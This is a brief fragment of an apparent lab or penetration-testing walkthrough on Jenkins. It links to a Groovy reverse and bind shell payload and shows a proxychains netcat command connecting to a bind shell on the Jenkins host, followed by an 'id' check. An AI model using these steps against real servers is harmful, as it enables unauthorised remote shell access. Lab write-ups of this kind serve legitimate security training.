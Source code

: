 **Payload Reference**: [https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell](https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell)

Once the payload has been executed in the Groovy script console, we can use netcat utility to connect to the bind shell started on the target machine (running Jenkins) using proxychains: `proxychains nc -v 192.129.183.3 5555`

### Machine hosing Jenkins[​](broken-reference) <a href="#machine-hosing-jenkins" id="machine-hosing-jenkins"></a>

`id`

